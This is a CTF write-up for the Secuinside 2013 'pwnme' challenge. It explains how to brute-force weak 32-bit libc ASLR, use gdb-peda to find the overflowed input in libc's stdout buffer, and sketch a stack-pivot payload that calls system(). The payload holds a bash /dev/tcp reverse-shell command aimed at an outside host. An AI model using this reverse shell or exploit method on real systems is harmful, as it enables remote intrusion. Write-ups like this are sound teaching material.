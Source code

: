 ```yaml
---
title: '[Secuinside CTF 2013] pwnme writeup'
author: longld
layout: post

aktt_notify_twitter:
  - no
shorturls:
  - 'a:0:{}'
tweetbackscheck:
  - 1408358961
kopa_newsmixlight_total_view:
  - 1
category: ctf - clgt crew
tags:
  - aslr
  - CTF
  - 'CTF - CLGT Crew'
  - return-to-libc
  - rop
---
```

Challenge summary:

Binary : http://war.secuinside.com/files/pwnme  
Source : http://war.secuinside.com/files/pwnme.c  
===================================  
OS : Ubuntu 13.04 with PIE+ASLR+NX  
md5 of libc-2.17.so : 45be45152ad28841ddabc5c875f8e6e4

IP : 54.214.248.68  
PORT : 8181,8282,8383

This is the only exploit challenge comes with source. The bug is simple: buffer overflow with only 16-bytes at *pwnme.c:67*, just enough to control EIP. The goal is to bypass PIE+ASLR+NX. We first thought about information leak by overwriting one byte of saved EIP and looking for status. Unfortunately, this way soon becomes an dead end as socket was closed before returning at *pwnme.c:72*, so no more input, output can be provided to the program. Conclusion: we have to bruteforce for useful addresses, and due to binary is PIE bruteforcing for libc address the best way for code reuse. Luckily, ASLR on Ubuntu x86 is weak, the libc base address looks like 0xb7NNN000 with only 12-bits randomization. Server daemon will fork a child process for every coming connection, that means addresses will be the same for all instances and bruteforcing 12-bits only take 4096 tries at max. If server is fast, stable this can be done in few minutes, but in fact CTF game server was out of service for most of the time :).

Now we can assume that libc is at fixed address, let build the payload. But where is my input buffer? It was zeroing out at *pwnme.c:71*, there must be something hidden. Let take a look at crash by sending a 1040 bytes pattern buffer:

<pre class="brush: plain; title: ; notranslate" title="">Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xb774b000 --&gt; 0x1aed9c
ECX: 0x0
EDX: 0xb774b000 --&gt; 0x1aed9c
ESI: 0x0
EDI: 0x0
EBP: 0x41397441 ('At9A')
ESP: 0xbfac6ce0 --&gt; 0x1
EIP: 0x75417375 ('usAu')
EFLAGS: 0x10217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x75417375
[------------------------------------stack-------------------------------------]
0000| 0xbfac6ce0 --&gt; 0x1
0004| 0xbfac6ce4 --&gt; 0xbfac6d74 --&gt; 0xbfac78db ("./pwnme")
0008| 0xbfac6ce8 --&gt; 0xbfac6d7c --&gt; 0xbfac78e3 ("TERM=xterm")
0012| 0xbfac6cec --&gt; 0xb777a000 --&gt; 0x20f38
0016| 0xbfac6cf0 --&gt; 0x20 (' ')
0020| 0xbfac6cf4 --&gt; 0x0
0024| 0xbfac6cf8 --&gt; 0xb77566f0 --&gt; 0xb759c000 --&gt; 0x464c457f
0028| 0xbfac6cfc --&gt; 0x3
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x75417375 in ?? ()
gdb-peda$ patts
Registers contain pattern buffer:
EIP+0 found at offset: 1036
EBP+0 found at offset: 1032
No register points to pattern buffer
Pattern buffer found at:
0xb7753000 : offset 1016 - size   24 (mapped)
0xb7753023 : offset   27 - size  989 (mapped)
0xbfac6cd0 : offset 1024 - size   16 ($sp + -0x10 [-4 dwords])
References to pattern buffer found at:
0xb774ba24 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba28 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba2c : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba30 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba34 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba38 : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xb774ba3c : 0xb7753000 (/lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so)
0xbfac6210 : 0xb7753000 ($sp + -0xad0 [-692 dwords])
0xbfac6224 : 0xb7753000 ($sp + -0xabc [-687 dwords])
0xbfac6248 : 0xb7753000 ($sp + -0xa98 [-678 dwords])
0xbfac6254 : 0xb7753000 ($sp + -0xa8c [-675 dwords])
0xbfac6294 : 0xb7753000 ($sp + -0xa4c [-659 dwords])
0xbfac67c8 : 0xb7753000 ($sp + -0x518 [-326 dwords])
0xbfac67d4 : 0xb7753000 ($sp + -0x50c [-323 dwords])
0xbfac6814 : 0xb7753000 ($sp + -0x4cc [-307 dwords])
gdb-peda$
</pre>

Our input buffer is still there in non-stack memory starts at 0xb7753000, actually this is &#8220;stdout&#8221; buffer used in *printf()* at *pwnme.c:70*.

<pre class="brush: plain; title: ; notranslate" title="">gdb-peda$ info symbol 0xb7753000
No symbol matches 0xb7753000.
gdb-peda$ info symbol 0xb774ba24
_IO_2_1_stdout_ + 4 in section .data of /lib/i386-linux-gnu/tls/i686/nosegneg/libc.so.6
</pre>

We can only assume that libc is fixed, if above buffer address is randomized things will become worse (means finding tedious ROP gadgets to pivot). Fortunately, that buffer is at fixed offset related to libc address.

<pre class="brush: plain; title: ; notranslate" title="">gdb-peda$ vmmap libc
Start      End        Perm    Name
0xb759c000 0xb7749000 r-xp    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
0xb7749000 0xb774b000 r--p    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
0xb774b000 0xb774c000 rw-p    /lib/i386-linux-gnu/tls/i686/nosegneg/libc-2.17.so
gdb-peda$ distance 0xb759c000 0xb7753000
From 0xb759c000 to 0xb7753000: 1798144 bytes, 449536 dwords
</pre>

Try to run the program several times to check and the offset is unchanged. We can build the payload now, the simplest one is calling *system()* with bash reverse shell, or you can try harder with full ROP payload (like what we did during the contest and wasted few more hours :)).

Sample payload will look like:

<pre class="brush: plain; title: ; notranslate" title="">base = 0xb7500000 + bruteforce_value
target = base + 1798144 + 0x304 # make enough space for fake stack
cmd_ptr = target + some_offset # calculate it yourself
cmd = "bash -c 'exec &gt;/dev/tcp/127.127.127.127/4444 0&lt;&1';"
payload = [ret ... ret, system, exit, cmd_ptr, cmd, padding] # total size = 1032
payload += [target] # will become EBP
payload += [leave_ret] # stack pivoting
</pre>

Run it hundred of times and wait for a shell coming to your box.